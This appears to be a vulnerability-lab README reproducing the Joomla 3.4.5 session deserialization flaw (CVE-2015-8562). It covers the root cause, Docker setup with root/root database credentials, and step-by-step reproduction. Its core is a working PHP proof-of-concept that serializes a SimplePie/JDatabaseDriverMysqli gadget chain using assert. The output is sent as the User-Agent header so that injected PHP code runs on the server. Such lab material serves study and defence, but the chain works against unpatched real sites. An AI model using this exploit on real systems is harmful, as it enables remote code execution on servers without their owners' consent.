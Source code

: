 # Joomla 3.4.5 Deserialization Vulnerability (CVE-2015-8562)

The root cause of this vulnerability is that the version before PHP5.6.13 reads the stored session. If the deserialization error occurs, the current piece of data will be skipped and the next piece of data will be deserialized. Joomla stores the session in the Mysql database. The encoding is utf8. When we insert 4 bytes of utf8 data, it will cause truncation. The truncated data fails when deserialized, and finally triggers the deserialization vulnerability.

Through the Gadget in Joomla, the result of arbitrary code execution can be caused.

For details, please refer to:

 - https://www.leavesongs.com/PENETRATION/joomla-unserialize-code-execute-vulnerability.html

Impact version

 - Joomla 1.5.x, 2.x, and 3.x before 3.4.6
 - PHP 5.6 < 5.6.13, PHP 5.5 < 5.5.29 and PHP 5.4 < 5.4.45

## test environment

Compile and start the test environment:

```
Docker-compose build
Docker-compose up -d
```

After launching, visit `http://your-ip:8080/` to see the Joomla installation interface. The database information of the current environment is:

 - Database address: mysql: 3306
 - User: root
 - Password: root
 - Database name: joomla

Fill in the above information and install it normally.

## Vulnerability recurrence

Then we visit the target home page first, and write down the cookie returned by the server:

![](2.png)

Then use the following script to generate the POC: ([Online Run] (http://sandbox.onlinephpfunctions.com/code/17e7080841ccce12f6c6e0bb1de01b9e390510bd))

```php
<?php
Class JSimplepieFactory {
}
Class JDatabaseDriverMysql {

}
Class SimplePie {
    Var $sanitize;
    Var $cache;
    Var $cache_name_function;
    Var $javascript;
    Var $feed_url;
    Function __construct()
    {
        $this->feed_url = "phpinfo();JFactory::getConfig();exit;";
        $this->javascript = 9999;
        $this->cache_name_function = "assert";
        $this->sanitize = new JDatabaseDriverMysql();
        $this->cache = true;
    }
}

Class JDatabaseDriverMysqli {
    Protected $a;
    Protected $disconnectHandlers;
    Protected $connection;
    Function __construct()
    {
        $this->a = new JSimplepieFactory();
        $x = new SimplePie();
        $this->connection = 1;
        $this->disconnectHandlers = [
            [$x, "init"],
        ];
    }
}

$a = new JDatabaseDriverMysqli();
$poc = serialize($a);

$poc = str_replace("\x00*\x00", '\\0\\0\\0', $poc);

Echo "123}__test|{$poc}\xF0\x9D\x8C\x86";
```

![](1.png)

The generated POC is used as the User-Agent, and the cookie obtained by the first step is sent. This time, the package is sent, and the dirty data enters the Mysql database. Then the same package is sent again and our code is executed:

![](3.png)
